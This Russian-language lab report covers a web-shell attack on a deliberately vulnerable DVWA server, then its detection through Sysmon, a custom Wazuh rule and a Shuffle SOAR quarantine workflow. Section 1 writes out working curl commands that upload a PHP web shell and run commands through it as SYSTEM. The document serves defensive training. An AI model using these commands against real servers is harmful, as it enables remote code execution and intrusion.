




# Отчёт по симуляции веб-атак: A01:2021 — Broken Access Control (Windows Server 2019)

В практической работе исследуется эксплуатация уязвимости небезопасной загрузки файлов (DVWA на Windows Server 2019) и её детектирование через Sysmon, Wazuh SIEM и Shuffle SOAR.

## 1. Сценарий атаки: Загрузка и активация веб-шелла

Атака выполнялась с `kali-linux` (`192.168.1.74`) на `win-victim` (`192.168.1.138`) в два этапа: доставка PHP-нагрузки через `curl` и RCE-запросы.

### Команды атаки:
```bash
# 1. Загрузка веб-шелла
IP="192.168.1.138"
curl -s -X POST -H "Cookie: PHPSESSID=b6la41lodg3lsrp9voeobq2tvg; security=low" -F "uploaded=@-;filename=shell.php" -F "Upload=Upload" "http://\${IP}/vulnerabilities/upload/" <<< '<?php system(\$_GET["cmd"]); ?>'

# 2. Активация веб-шелла и выполнение команд разведки
curl -s "http://\${IP}/hackable/uploads/shell.php?cmd=whoami"
curl -s "http://\${IP}/hackable/uploads/shell.php?cmd=hostname"
```

**Результат:** Сервер ответил `nt authority\система` и хостом `WIN-EGFO6580PJF` (Apache запущен от `SYSTEM`).



## 2. Анализ логов сервера

В `C:\xampp\apache\logs\access.log` зафиксированы стандартные POST/GET запросы с кодом `200`, но контекст выполнения команд внутри Windows скрыт.

## 3. Расследование инцидента (Sysmon и Wazuh)

Детектируется порождение дочерних процессов веб-сервером.

### Этап А (Sysmon EventID 1):
* **ParentImage:** `httpd.exe`
* **Image:** `cmd.exe /s /c "whoami"`
* **Пользователь:** `NT AUTHORITY\СИСТЕМА`



### Этап Б (Тюнинг Wazuh):
Правило `92052` дополнено кастомным правилом **`100201`** (Level 12) с привязкой к MITRE ATT&CK `T1059.003` и `T1505.003`.

```xml
<group name="windows,sysmon,web_attack,">
  <rule id="100201" level="12">
    <if_sid>92052</if_sid>
    <field name="win.eventdata.parentImage">httpd.exe</field>
    <description>Windows Web Server RCE / Web Shell Detected</description>
    <mitre>
      <id>T1059.003</id>
      <id>T1505.003</id>
    </mitre>
  </rule>
</group>
```



## 4. Автоматическое сдерживание (Shuffle SOAR)

* **Проблема:** Кириллическое имя учетной записи (`Администратор`) вызывало сбои SSH. Создана сервисная учетная запись `soar_admin`.
* **Воркфлоу (`Win-A01-Quarantine`):** При срабатывании `rule.id: 100201` Shuffle подключается по SSH, переносит `.php` файлы из `C:\xampp\htdocs\hackable\uploads\` в `C:\quarantine` и собирает процессы `httpd.exe`.
* **Проверка:** Повторный запрос к веб-шеллу через 5 секунд вернул **`HTTP/1.1 404 Not Found`**.



## Рекомендации по защите
1. Отключить выполнение PHP в папке `uploads` (`php_flag engine off`).
2. Запускать Apache от имени отдельного пользователя с минимальными привилегиями (не `SYSTEM`).
